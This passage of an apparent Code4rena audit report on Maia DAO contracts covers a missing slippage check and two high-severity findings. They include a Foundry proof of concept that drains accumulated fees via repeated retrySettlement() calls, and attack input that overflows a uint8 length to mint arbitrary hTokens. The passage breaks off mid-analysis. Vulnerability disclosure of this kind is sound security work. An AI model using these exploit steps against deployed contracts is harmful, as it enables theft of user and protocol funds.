*Submitted by [AlexCzm](https://github.com/code-423n4/2023-05-maia-findings/issues/658), also found by [los\_chicos](https://github.com/code-423n4/2023-05-maia-findings/issues/776), [said](https://github.com/code-423n4/2023-05-maia-findings/issues/271), and [T1MOH](https://github.com/code-423n4/2023-05-maia-findings/issues/73)*

The `checkDeviation`s modifier's purpose is to add slippage protection for an increase/decrease in liquidity operations. It's applied to `deposit/redeem`, `rerange/rebalance`  but `init()` is missing it.

### Impact

There is no slippage protection on `init()`.

### Proof of Concept

In the `init()` function of `TalosBaseStrategy`, the following actions are performed: an initial deposit is made, a tokenId and shares are minted.

The `_nonfungiblePositionManager.mint()` function is called with hardcoded values of `amount0Min` and `amount1Min` both set to 0. Additionally, it should be noted that the `init()` function does not utilize the `checkDeviation` modifier, which was specifically designed to safeguard users against slippage.

```solidity
    function init(uint256 amount0Desired, uint256 amount1Desired, address receiver)
        external
        virtual
        nonReentrant
        returns (uint256 shares, uint256 amount0, uint256 amount1)
    {
    ...
        (_tokenId, _liquidity, amount0, amount1) = _nonfungiblePositionManager.mint(
            INonfungiblePositionManager.MintParams({
                token0: address(_token0),
                token1: address(_token1),
                fee: poolFee,
                tickLower: tickLower,
                tickUpper: tickUpper,
                amount0Desired: amount0Desired,
                amount1Desired: amount1Desired,
                amount0Min: 0,
                amount1Min: 0,
                recipient: address(this),
                deadline: block.timestamp
            })
        );
        ...
```
<https://github.com/Maia-DAO/maia-ecosystem-monorepo/blob/2f6e87348877684aa0c12aec204fea210cfbe6eb/src/scope/talos/base/TalosBaseStrategy.sol#L99-L147>

```solidity
    /// @notice Function modifier that checks if price has not moved a lot recently.
    /// This mitigates price manipulation during rebalance and also prevents placing orders when it's too volatile.
    modifier checkDeviation() {
        ITalosOptimizer _optimizer = optimizer;
        pool.checkDeviation(_optimizer.maxTwapDeviation(), _optimizer.twapDuration());
        _;
    }
```
<https://github.com/Maia-DAO/maia-ecosystem-monorepo/blob/2f6e87348877684aa0c12aec204fea210cfbe6eb/src/scope/talos/base/TalosBaseStrategy.sol#L419-L425>

### Tools Used

VS Code, `uniswapv3book`

### Recommended Mitigation Steps

Apply `checkDeviation` to `init()` function.

**[Trust (judge) increased severity to High](https://github.com/code-423n4/2023-05-maia-findings/issues/658#issuecomment-1631195362)**

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/658#issuecomment-1655668470)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/658#issuecomment-1708812040):**
> Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/577-57-504-658-583-730).

***

## [[H-11] An attacker can steal Accumulated Awards from `RootBridgeAgent` by abusing `retrySettlement()`](https://github.com/code-423n4/2023-05-maia-findings/issues/645)
*Submitted by [Voyvoda](https://github.com/code-423n4/2023-05-maia-findings/issues/645), also found by [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/349)*

### Lines of code

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/BranchBridgeAgent.sol#L238-L272> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/BranchBridgeAgent.sol#L1018-L1054> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L860-L1174> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L244-L252> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/VirtualAccount.sol#L41-L53> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L1177-L1216> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/MulticallRootRouter.sol#L345-L409>

The Accumulated Awards inside `RootBridgeAgent.sol` can be stolen. The Accumulated Awards state will be compromised and awards will be stuck.


### Proof of Concept
*Note: An end-to-end coded PoC is at the end of the PoC section.*

### Gas state

The gas related state inside `RootBridgeAgent` consists of:

- `initialGas`: a checkpoint that records `gasleft()` at the start of `anyExecute` that has been called by `Multichain` when we have a cross-chain call.
- `userFeeInfo`: this is a struct that contains `depositedGas` which is the total amount of gas that the user has paid for on a `BranchChain`. The struct also contains `gasToBridgeOut`, which is the amount of gas to be used for further cross-chain executions. The assumption is that `gasToBridgeOut < depositedGas` which is checked at the start of `anyExecute(...)`.
- At the end of `anyExecute(...)`: the function `_payExecutionGas()` is invoked that calculates the supplied gas available for execution on the Root `avaliableGas = _depositedGas - _gasToBridgeOut` and then a check is performed if `availableGas` is enough to cover `minExecCost`, (which uses the `initialGas` checkpoint and subtracts a second `gasleft()` checkpoint to represent the end of execution on the Root). The difference between `availableGas` and `minExecCost` is the profit for the protocol is recorded inside `accumulatedFees` state variable.

```solidity
function _payExecutionGas(uint128 _depositedGas, uint128 _gasToBridgeOut, uint256 _initialGas, uint24 _fromChain)
        internal
    {
        //reset initial remote execution gas and remote execution fee information
        delete(initialGas);
        delete(userFeeInfo);

        if (_fromChain == localChainId) return;

        //Get Available Gas
        uint256 availableGas = _depositedGas - _gasToBridgeOut;

        //Get Root Environment Execution Cost
        uint256 minExecCost = tx.gasprice * (MIN_EXECUTION_OVERHEAD + _initialGas - gasleft());

        //Check if sufficient balance
        if (minExecCost > availableGas) {
            _forceRevert();
            return;
        }

        //Replenish Gas
        _replenishGas(minExecCost);

        //Account for excess gas
        accumulatedFees += availableGas - minExecCost;
    }
```

### Settlements

These are records of tokens that are "bridged out" (transferred) through the `RootBridgeAgent` to a `BranchBridgeAgent`. By default, when a settlement is created it is "successful", unless the execution on the Branch Chain fails and `anyFallback(...)` is called on the `RootBridgeAgent`, which will set the settlement status as "failed".

An example way to create a settlement, will be to "bridge out" some of the assets from `BranchBridgeAgent` to `RootBridgeAgent` and embed extra data that represents another bridge operation from `RootBridgeAgent` to `BranchBridgeAgent`. This flow passes through the `MulticallRootRouter` and could be the same branch agent as the first one or different. At this point, a settlement will be created. Moreover, a settlement could fail, for example, because of insufficient `gasToBridgeOut` provided by the user. In that case, `anyFallback` is triggered on the `RootBridgeAgent`, failing the settlement. At this time, `retrySettlement()` becomes available to call for the particular settlement.

### The attack

Let's first examine closely the `retrySettlement()` function:

```solidity
function retrySettlement(uint32 _settlementNonce, uint128 _remoteExecutionGas) external payable {
        //Update User Gas available.
        if (initialGas == 0) {
            userFeeInfo.depositedGas = uint128(msg.value);
            userFeeInfo.gasToBridgeOut = _remoteExecutionGas;
        }
        //Clear Settlement with updated gas.
        _retrySettlement(_settlementNonce);
    }
```

If `initialGas == 0`, it is assumed that someone directly calls `retrySettlement(...)` and therefore has to deposit gas (`msg.value`). However, if `initialGas > 0`, it is assumed that `retrySettlement(...)` could be part of an `anyExecute(...)` call that contained instructions for the `MulticallRootRouter` to do the call through a `VirtualAccount`. Let's assume the second scenario where `initialGas > 0` and examine the internal `_retrySettlement`:

First, we have the call to `_manageGasOut(...)`, where again if `initialGas > 0`, we assume that the `retrySettlement(...)` is within `anyExecute`; therefore, the `userFeeInfo` state is already set. From there, we perform a `_gasSwapOut(...)` with `userFeeInfo.gasToBridgeOut` where we swap the `gasToBridgeOut` amount of `wrappedNative` for gas tokens that are burned. Then, back in the internal `_retrySettlement(...)`, the new gas is recorded in the settlement record and the message is sent to a Branch Chain via `anyCall`.

The weakness here, is that after we retry a settlement with `userFeeInfo.gasToBridgeOut` we do not set `userFeeInfo.gasToBridgeOut = 0`. Which if we perform only 1 `retrySettlement(...)`, it is not exploitable; however, if we embed in a single `anyExecute(...)` in several `retrySettlement(...)` calls, it becomes obvious that we can pay 1 time for `gasToBridgeOut` on a Branch Chain and use it multiple times on the `RootChain` to fuel the many `retrySettlement(...)` calls.

The second feature that will be part of the attack, is that on a Branch Chain we get refunded for the excess of `gasToBridgeOut` that wasn't used for execution on the Branch Chain.

```solidity
function _retrySettlement(uint32 _settlementNonce) internal returns (bool) {
        //Get Settlement
        Settlement memory settlement = getSettlement[_settlementNonce];

        //Check if Settlement hasn't been redeemed.
        if (settlement.owner == address(0)) return false;

        //abi encodePacked
        bytes memory newGas = abi.encodePacked(_manageGasOut(settlement.toChain));

        //overwrite last 16bytes of callData
        for (uint256 i = 0; i < newGas.length;) {
            settlement.callData[settlement.callData.length - 16 + i] = newGas[i];
            unchecked {
                ++i;
            }
        }

        Settlement storage settlementReference = getSettlement[_settlementNonce];

        //Update Gas To Bridge Out
        settlementReference.gasToBridgeOut = userFeeInfo.gasToBridgeOut;

        //Set Settlement Calldata to send to Branch Chain
        settlementReference.callData = settlement.callData;

        //Update Settlement Status
        settlementReference.status = SettlementStatus.Success;

        //Retry call with additional gas
        _performCall(settlement.callData, settlement.toChain);

        //Retry Success
        return true;
    }
```

An attacker will trigger some number of `callOutAndBridge(...)` invocations from a Branch Chain, with some assets and extra data that will call `callOutAndBridge(...)` on the Root Chain to transfer back these assets to the originating Branch Chain (or any other Branch Chain). However, the attacker will set minimum `depositedGas` to ensure execution on the Root Chain, but insufficient gas to complete remote execution on the Branch Chain; therefore, failing a number of settlements. The attacker will then follow with a `callOutAndBridge(...)` from a Branch Chain that contains extra data for the `MutlicallRouter` and for the `VirtualAccount` to call `retrySettlement(...)` for every "failed" settlement. Since we will have multiple `retrySettlement(...)` invocations inside a single `anyExecute`, at some point the `gasToBridgeOut` sent to each settlement will become `>` the deposited gas and we will be spending from the Root Branch reserves (accumulated rewards). The attacker will redeem their profit on the Branch Chain, since they get a gas refund. Therefore, there will also be a mismatch between `accumulatedRewards` and the native currency in `RootBridgeAgent`, causing `sweep()` to revert and any `accumulatedRewards` left will be bricked.

### Coded PoC

Copy the two functions `testGasIssue` and `_prepareDeposit` in `test/ulysses-omnichain/RootTest.t.sol` and place them in the `RootTest` contract after the setup.

Execute with `forge test --match-test testGasIssue -vv`.

Result: the attacker starts with `1000000000000000000` wei (1 ether) and has `1169999892307980000` wei (>1 ether) after the execution of the attack (the end number could be slightly different, depending on foundry version), which is a mismatch between `accumulatedRewards` and the amount of WETH in the contract.

*Note - there are console logs added from the developers in some of the mock contracts. Consider commenting them out for clarity of the output.*

```solidity
function testGasIssue() public {
        testAddLocalTokenArbitrum();
        console2.log("---------------------------------------------------------");
        console2.log("-------------------- GAS ISSUE START---------------------");
        console2.log("---------------------------------------------------------");
        // Accumulate rewards in RootBridgeAgent
        address some_user = address(0xAAEE);
        hevm.deal(some_user, 1.5 ether);
        // Not a valid flag, MulticallRouter will return false, that's fine, we just want to credit some fees
        bytes memory empty_params = abi.encode(bytes1(0x00));
        hevm.prank(some_user);
        avaxMulticallBridgeAgent.callOut{value: 1.1 ether }(empty_params, 0);

        // Get the global(root) address for the avax H mock token
        address globalAddress = rootPort.getGlobalTokenFromLocal(avaxMockAssethToken, avaxChainId);

        // Attacker starts with 1 ether
        address attacker = address(0xEEAA);
        hevm.deal(attacker, 1 ether);
        
        // Mint 1 ether of the avax mock underlying token
        hevm.prank(address(avaxPort));
        
        MockERC20(address(avaxMockAssetToken)).mint(attacker, 1 ether);
        
        // Attacker approves the underlying token
        hevm.prank(attacker);
        MockERC20(address(avaxMockAssetToken)).approve(address(avaxPort), 1 ether);

        
        // Print out the amounts of WrappedNative & AccumulateAwards state 
        console2.log("RootBridge WrappedNative START",WETH9(arbitrumWrappedNativeToken).balanceOf(address(multicallBridgeAgent)));
        console2.log("RootBridge ACCUMULATED FEES START", multicallBridgeAgent.accumulatedFees());

        // Attacker's underlying avax mock token balance
        console2.log("Attacker underlying token balance avax", avaxMockAssetToken.balanceOf(attacker));

        // Prepare a single deposit with remote gas that will cause the remote exec from the root to branch to fail
        // We will have to mock this fail since we don't have the MultiChain contracts, but the provided 
        // Mock Anycall has anticipated for that

        DepositInput memory deposit = _prepareDeposit();
        uint128 remoteExecutionGas = 2_000_000_000;

        Multicall2.Call[] memory calls = new Multicall2.Call[](0);

        OutputParams memory outputParams = OutputParams(attacker, globalAddress, 500, 500);
        
        bytes memory params = abi.encodePacked(bytes1(0x02),abi.encode(calls, outputParams, avaxChainId));

        console2.log("ATTACKER ETHER BALANCE START", attacker.balance);

        // Toggle anyCall for 1 call (Bridge -> Root), this config won't do the 2nd anyCall
        // Root -> Bridge (this is how we mock BridgeAgent reverting due to insufficient remote gas)
        MockAnycall(local`AnyCall`Address).toggleFallback(1);

        // execute
        hevm.prank(attacker);
        // in reality we need 0.00000002 (supply a bit more to make sure we don't fail execution on the root)
        avaxMulticallBridgeAgent.callOutSignedAndBridge{value: 0.00000005 ether }(params, deposit, remoteExecutionGas);

        // Switch to normal mode 
        MockAnycall(local`AnyCall`Address).toggleFallback(0);
        // this will call anyFallback() on the Root and Fail the settlement
        MockAnycall(local`AnyCall`Address).testFallback();

        // Repeat for 1 more settlement
        MockAnycall(local`AnyCall`Address).toggleFallback(1);
        hevm.prank(attacker);
        avaxMulticallBridgeAgent.callOutSignedAndBridge{value: 0.00000005 ether}(params, deposit, remoteExecutionGas);
        
        MockAnycall(local`AnyCall`Address).toggleFallback(0);
        MockAnycall(local`AnyCall`Address).testFallback();
        
        // Print out the amounts of WrappedNative & AccumulateAwards state  after failing the settlements but before the attack 
        console2.log("RootBridge WrappedNative AFTER SETTLEMENTS FAILURE BUT BEFORE ATTACK",WETH9(arbitrumWrappedNativeToken).balanceOf(address(multicallBridgeAgent)));
        console2.log("RootBridge ACCUMULATED FEES AFTER SETTLEMENTS FAILURE BUT BEFORE ATTACK", multicallBridgeAgent.accumulatedFees());

        // Encode 2 calls to retrySettlement(), we can use 0 remoteGas arg since 
        // initialGas > 0 because we execute the calls as a part of an anyExecute()
        Multicall2.Call[] memory malicious_calls = new Multicall2.Call[](2);

        bytes4 selector = bytes4(keccak256("retrySettlement(uint32,uint128)"));

        malicious_calls[0] = Multicall2.Call({target: address(multicallBridgeAgent), callData:abi.encodeWithSelector(selector,1,0)});
        malicious_calls[1] = Multicall2.Call({target: address(multicallBridgeAgent), callData:abi.encodeWithSelector(selector,2,0)});
        // malicious_calls[2] = Multicall2.Call({target: address(multicallBridgeAgent), callData:abi.encodeWithSelector(selector,3,0)});
        
        outputParams = OutputParams(attacker, globalAddress, 500, 500);
        
        params = abi.encodePacked(bytes1(0x02),abi.encode(malicious_calls, outputParams, avaxChainId));

        // At this point root now has ~1.1 
        hevm.prank(attacker);
        avaxMulticallBridgeAgent.callOutSignedAndBridge{value: 0.1 ether}(params, deposit, 0.09 ether);
        
        // get attacker's virtual account address
        address vaccount = address(rootPort.getUserAccount(attacker));

        console2.log("ATTACKER underlying balance avax", avaxMockAssetToken.balanceOf(attacker));
        console2.log("ATTACKER global avax h token balance root", ERC20hTokenRoot(globalAddress).balanceOf(vaccount));

        console2.log("ATTACKER ETHER BALANCE END", attacker.balance);
        console2.log("RootBridge WrappedNative END",WETH9(arbitrumWrappedNativeToken).balanceOf(address(multicallBridgeAgent)));
        console2.log("RootBridge ACCUMULATED FEES END", multicallBridgeAgent.accumulatedFees());
        console2.log("---------------------------------------------------------");
        console2.log("-------------------- GAS ISSUE END ----------------------");
        console2.log("---------------------------------------------------------");

    }

    function _prepareDeposit() internal returns(DepositInput memory) {
        // hToken address
        address addr1 = avaxMockAssethToken;

        // underlying address
        address addr2 = address(avaxMockAssetToken);

        uint256 amount1 = 500;
        uint256 amount2 = 500;

        uint24 toChain = rootChainId;

        return DepositInput({
            hToken:addr1,
            token:addr2,
            amount:amount1,
            deposit:amount2,
            toChain:toChain
        });

    }
```

### Recommendation

It is hard to conclude a particular fix, but consider setting `userFeeInfo.gasToBridgeOut = 0` after `retrySettlement`  as part of the mitigation.

### Assessed type

Context

**[0xBugsy (Maia) confirmed, but disagreed with severity and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/645#issuecomment-1632820616):**
 > The fix recommended for this issue was saving the available gas and clearing the `gasToBridgeOut` after each `manageGasOut` in order to avoid this double spending and using available gas in `payExecutionGas`.

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/645#issuecomment-1647992146):**
 > Loss of yield = loss of funds. High impact from my perspective.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/645#issuecomment-1708814750):**
> We recognize the audit's findings on Anycall Gas Management. These will not be rectified due to the upcoming migration of this section to LayerZero.

***

## [[H-12] An attacker can mint an arbitrary amount of `hToken` on `RootChain`](https://github.com/code-423n4/2023-05-maia-findings/issues/643)
*Submitted by [Voyvoda](https://github.com/code-423n4/2023-05-maia-findings/issues/643)*

### Lines of code

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/BranchBridgeAgent.sol#L275-L316> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L860-L1174> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgentExecutor.sol#L259-L299> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootBridgeAgent.sol#L404-L426> <br><https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/RootPort.sol#L276-L284>

### Impact

An adversary can construct an attack vector that let's them mint an arbitrary amount of hToken's on the `RootChain`.

### Proof of Concept

*Note: An end-to-end coded PoC is at the end of PoC section.*

### Background

The attack will start on a Branch Chain where we have some underlying ERC20 `token` and a corresponding `hToken`  that represents `token` within the omnichain system. The `callOutSignedAndBridgeMultiple(...)` function is supposed to bridge multiple tokens to a destination chain and also carry the `msg.sender` so that the tokens can be credited to `msg.sender`'s `VirtualAccount`. The attacker will call the function with `DepositMultipleInputParams` `_dParams` that take advantage of several weaknesses contained within the function. 

Below is an overview of the `DepositMultipleInput` struct and flow diagram of `BranchBridgeAgent`:

```solidity
struct DepositMultipleInput {
    //Deposit Info
    address[] hTokens; //Input Local hTokens Address.
    address[] tokens; //Input Native / underlying Token Address.
    uint256[] amounts; //Amount of Local hTokens deposited for interaction.
    uint256[] deposits; //Amount of native tokens deposited for interaction.
    uint24 toChain; //Destination chain for interaction.
}
```



Weakness **#1** is that the supplied array of tokens `address[] hTokens` in `_dParams` is not checked if it exceeds 256. This causes an obvious issue where if `hTokens` length is `>` 256, the recorded length in `packedData` will be wrong since it's using an unsafe cast to `uint8` and will overflow: `uint8(_dParams.hTokens.length)`.

```solidity
function callOutSignedAndBridgeMultiple(
        bytes calldata _params,
        DepositMultipleInput memory _dParams,
        uint128 _remoteExecutionGas
    ) external payable lock requiresFallbackGas {
        // code ...

        //Encode Data for cross-chain call.
        bytes memory packedData = abi.encodePacked(
            bytes1(0x06),
            msg.sender,
            uint8(_dParams.hTokens.length),
            depositNonce,
            _dParams.hTokens,
            _dParams.tokens,
            _dParams.amounts,
            _deposits,
            _dParams.toChain,
            _params,
            msg.value.toUint128(),
            _remoteExecutionGas
        );
				
				// code ...
				_depositAndCallMultiple(...);
    }
```

Weakness **#2** arises in the subsequent internal function `_depositAndCallMultiple(...)`, where the only check performed on the supplied `hTokens`, `tokens`, `amounts` and `deposits` arrays is if the lengths match; however, there is no check if the length is the same as the one passed earlier to `packedData`.

```solidity
function _depositAndCallMultiple(
        address _depositor,
        bytes memory _data,
        address[] memory _hTokens,
        address[] memory _tokens,
        uint256[] memory _amounts,
        uint256[] memory _deposits,
        uint128 _gasToBridgeOut
    ) internal {
        //Validate Input
        if (
            _hTokens.length != _tokens.length || _tokens.length != _amounts.length
                || _amounts.length != _deposits.length
        ) revert InvalidInput();

        //Deposit and Store Info
        _createDepositMultiple(_depositor, _hTokens, _tokens, _amounts, _deposits, _gasToBridgeOut);

        //Perform Call
        _performCall(_data);
    }
```

Lastly, weakness **#3** is that  `bridgeOutMultiple(...)`, called within `_createDepositMultiple(...)`, allows for supplying any address in the `hTokens` array since it only performs operations on these addresses if `_deposits[i] > 0` or `_amounts[i] - _deposits[i] > 0`. In other words, if we set `deposits[i] = 0` and `amounts[i] = 0`, we can supply ANY address in `hTokens[i]`.

```solidity
function bridgeOutMultiple(
        address _depositor,
        address[] memory _localAddresses,
        address[] memory _underlyingAddresses,
        uint256[] memory _amounts,
        uint256[] memory _deposits
    ) external virtual requiresBridgeAgent {
        for (uint256 i = 0; i < _localAddresses.length;) {
            if (_deposits[i] > 0) {
                _underlyingAddresses[i].safeTransferFrom(
                    _depositor,
                    address(this),
                    _denormalizeDecimals(_deposits[i], ERC20(_underlyingAddresses[i]).decimals())
                );
            }
            if (_amounts[i] - _deposits[i] > 0) {
                _localAddresses[i].safeTransferFrom(_depositor, address(this), _amounts[i] - _deposits[i]);
                ERC20hTokenBranch(_localAddresses[i]).burn(_amounts[i] - _deposits[i]);
            }
            unchecked {
                i++;
            }
        }
    }
```

### Supplying the attack vector

The attacker will construct `DepositMultipleInput _dParams` where `address[] hTokens` will have a length of 257 where all entries, except `hTokens[1]`, `hTokens[2]` and `hTokens[3]`, will contain the Branch address of the same `hToken`. Note that, in the examined functions above, there is no restriction to supply the same `hToken` address multiple times.

In a similar way, `address[] tokens` will have a length of 257; however, here all entries will contain the underlying `token`. It is crucial to include the address of the underlying `token` to bypass `_normalizeDecimals`.

Next `uint256[] amounts` will be of length 257, where all entries will contain 0. Similarly, `uint256[] deposits` will be of length 257, where all entries will contain 0. In such configuration, the attacker is able to supply a malicious `hToken` address as per weakness **#3**.

The crucial part now, is that `hTokens[1]` will contain the address of the underlying `token`. This is needed to later bypass the params check on the `RootChain`.

`hTokens[2] & hTokens[3]` will contain the attacker's malicious payload address, which when converted to bytes and then `uint256`, will represent the arbitrary amount of tokens that the attacker will mint (this conversion will happen on the `RootChain`).

This is how the attack vector looks expressed in code:

```solidity
				// hToken address, note the "h" in the var name
        address addr1 = avaxMockAssethToken;

        // underlying address
        address addr2 = address(avaxMockAssetToken);

        // 0x2FAF0800 when packed to bytes and then cast to uint256 = 800000000
				// this amount will be minted on Root 
        address malicious_address = address(0x2FAF0800);
        
        uint256 amount1 = 0;
        uint256 amount2 = 0;

        uint num = 257;
        address[] memory htokens = new address[](num);
        address[] memory tokens = new address[](num);
        uint256[] memory amounts = new uint256[](num);
        uint256[] memory deposits = new uint256[](num);

        for(uint i=0; i<num; i++) {
            htokens[i] = addr1;
            tokens[i] = addr2;
            amounts[i] = amount1;
            deposits[i] = amount2;
        }
    
        // address of the underlying token
        htokens[1] = addr2;
      
        // copy of entry containing the arbitrary number of tokens
        htokens[2] = malicious_address;
        
        // entry containing the arbitrary number of tokens -> this one will be actually fed to mint on Root
        htokens[3] = malicious_address;
       
        uint24 toChain = rootChainId;

        // create input
        DepositMultipleInput memory input = DepositMultipleInput({
            hTokens:htokens,
            tokens:tokens,
            amounts:amounts,
            deposits:deposits,
            toChain:toChain
        });
```

Essentially, what happens now is the attacker has `packedData` that contains 257 `hTokens`, `tokens`, `amounts` and `deposits`; however, due to weakness **#1** the recorded length is 1 and due to weaknesses **#2** and **#3**, this construction of the input will reach `_peformCal(data)`. The mismatch between the number of entries and the actual number of supplied entries will cause malicious behavior on the `RootChain`.

```solidity
bytes memory packedData = abi.encodePacked(
            bytes1(0x06),
            msg.sender,
            uint8(_dParams.hTokens.length),
            depositNonce,
            _dParams.hTokens,
            _dParams.tokens,
            _dParams.amounts,
            _deposits,
            _dParams.toChain,
            _params,
            msg.value.toUint128(),
            _remoteExecutionGas
        );
```

The attack vector is in line with the general encoding scheme displayed below. The important note is that "Length" will contain a value of 1 instead of 257, which will disrupt the decoding on the `RootBranch`. More details about the encoding can be found in `IRootBridgeAgent.sol`.

    +--------+----------+--------+--------------+---------------------------+---------------------+----------------------+-----------------------+---------+------+----------+
    |  Flag  |  Signer  | Length | depositNonce | hTokens[0], [1] ... [256] | tokens[0] ... [256] | amounts[0] ... [256] | deposits[0] ... [256] | toChain | data |   gas    |
    +--------+----------+--------+--------------+---------------------------+---------------------+----------------------+-----------------------+---------+------+----------+
    | 1 byte | 20 bytes | 1 byte |   4 bytes    |       32 bytes * 257      |    32 bytes * 257   |    32 bytes * 257    |     32 bytes * 257    | 3 bytes | any  | 32 bytes |
    +--------+----------+--------+--------------+---------------------------+---------------------+----------------------+-----------------------+---------+------+----------+

### `RootBranch` receives the attack vector

The entry point for a message on the `RootChain` is `anyExecute(bytes calldata data)` in `RootBridgeAgent.sol`. This will be called by the `Multichain`'s `AnycallExecutor`. The function will unpack and navigate the supplied flag `0x06`, corresponding to `callOutSignedAndBridgeMultiple(...)` that was invoked on the Branch Chain.

Next, `executeSignedWithDepositMultiple(...)` will be invoked residing in `RootBridgeAgentExecutor.sol`, which will subsequently call `_bridgeInMultiple(...)`; however, the amount of data passed to `_bridgeInMultiple(...)` depends on the packed length of the `hTokens` array:

    function executeSignedWithDepositMultiple(
            address _account,
            address _router,
            bytes calldata _data,
            uint24 _fromChainId
        ) external onlyOwner returns (bool success, bytes memory result) {
            //Bridge In Assets
            DepositMultipleParams memory dParams = _bridgeInMultiple(
                _account,
                _data[
                    PARAMS_START_SIGNED:
                        PARAMS_END_SIGNED_OFFSET
                            + uint16(uint8(bytes1(_data[PARAMS_START_SIGNED]))) * PARAMS_TKN_SET_SIZE_MULTIPLE
                ],
                _fromChainId
            );

    				// more code ...

If we examine closer, the constants and check with the encoding scheme:

- `PARAMS_START_SIGNED` = 21
- `PARAMS_END_SIGNED_OFFSET` = 29
- `PARAMS_TKN_SET_SIZE_MULTIPLE` = 128

Here, the intended behavior is that `_data` is sliced in such a way that it removes the flag `bytes1(0x06)` and the `msg.sender` address. Hence, we start at byte21 - we have 29 to account for the `bytes4(nonce)`, `bytes3(chainId)` and `bytes1(length)` for a total of 8 bytes. But remember that byte slicing is exclusive of the `second byte index + uint16(length) * 128` for every set of `htoken`, `token`, `amount` and `deposit`. What will happen in the attack case is that `_data` will be cut short since the length will be 1 instead of 257 and `_data` will contain length, nonce, chainId and the first 4 entries of the constructed `hTokens[]` array.

Now, `_bridgeInMultiple` will unpack the `_dParams` where `numOfAssets = 1`; hence, only 1 iteration, and will populate a set with in reality the first 4 entries of the supplied `hTokens[]` in the attack vector:
- `hTokens[0] = hToken address`
- `tokens[0] = token address`
- `amounts[0] = malicious address payload cast to uint256`
- `deposits[0] = malicious address payload cast to uint256`

```solidity
function _bridgeInMultiple(address _recipient, bytes calldata _dParams, uint24 _fromChain)
        internal
        returns (DepositMultipleParams memory dParams)
    {
        // Parse Parameters
        uint8 numOfAssets = uint8(bytes1(_dParams[0]));
        uint32 nonce = uint32(bytes4(_dParams[PARAMS_START:5]));
        uint24 toChain = uint24(bytes3(_dParams[_dParams.length - 3:_dParams.length]));

        address[] memory hTokens = new address[](numOfAssets);
        address[] memory tokens = new address[](numOfAssets);
        uint256[] memory amounts = new uint256[](numOfAssets);
        uint256[] memory deposits = new uint256[](numOfAssets);

        for (uint256 i = 0; i < uint256(uint8(numOfAssets));) {
            //Parse Params
            hTokens[i] = address(
                uint160(
                    bytes20(
                        bytes32(
                            _dParams[
                                PARAMS_TKN_START + (PARAMS_ENTRY_SIZE * i) + 12:
                                    PARAMS_TKN_START + (PARAMS_ENTRY_SIZE * (PARAMS_START + i))
                            ]
                        )
                    )
                )
            );

            tokens[i] = address(
                uint160(
                    bytes20(
                        _dParams[
                            PARAMS_TKN_START + PARAMS_ENTRY_SIZE * uint16(i + numOfAssets) + 12:
                                PARAMS_TKN_START + PARAMS_ENTRY_SIZE * uint16(PARAMS_START + i + numOfAssets)
                        ]
                    )
                )
            );

            amounts[i] = uint256(
                bytes32(
                    _dParams[
                        PARAMS_TKN_START + PARAMS_AMT_OFFSET * uint16(numOfAssets) + (PARAMS_ENTRY_SIZE * uint16(i)):
                            PARAMS_TKN_START + PARAMS_AMT_OFFSET * uint16(numOfAssets)
                                + PARAMS_ENTRY_SIZE * uint16(PARAMS_START + i)
                    ]
                )
            );

            deposits[i] = uint256(
                bytes32(
                    _dParams[
                        PARAMS_TKN_START + PARAMS_DEPOSIT_OFFSET * uint16(numOfAssets) + (PARAMS_ENTRY_SIZE * uint16(i)):
                            PARAMS_TKN_START + PARAMS_DEPOSIT_OFFSET * uint16(numOfAssets)
                                + PARAMS_ENTRY_SIZE * uint16(PARAMS_START + i)
                    ]
                )
            );

            unchecked {
                ++i;
            }
        }
        //Save Deposit Multiple Params
        dParams = DepositMultipleParams({
            numberOfAssets: numOfAssets,
            depositNonce: nonce,
            hTokens: hTokens,
            tokens: tokens,
            amounts: amounts,
            deposits: deposits,
            toChain: toChain
        });

        RootBridgeAgent(payable(msg.sender)).bridgeInMultiple(_recipient, dParams, _fromChain);
    }
```

Subsequently, `bridgeInMultiple(...)` is called in `RootBridgeAgent.sol`, where `bridgeIn(...)` is called for every set of `hToken`, `token`, `amount` and `deposit`; one iteration in the attack scenario.

Function `bridgeIn(...)` now performs the critical `checkParams` from the `CheckParamsLib` library where if only 1 of 3 conditions is `true`, we will have a revert.

The first check is reverted if `_dParams.amount < _dParams.deposit`. This is "false" since `amount` and `deposit` are equal to the `uint256` cast of the `bytes` packing of the malicious address payload.

The second check is:

    (_dParams.amount > 0 && !IPort(_localPortAddress).isLocalToken(_dParams.hToken, _fromChain))

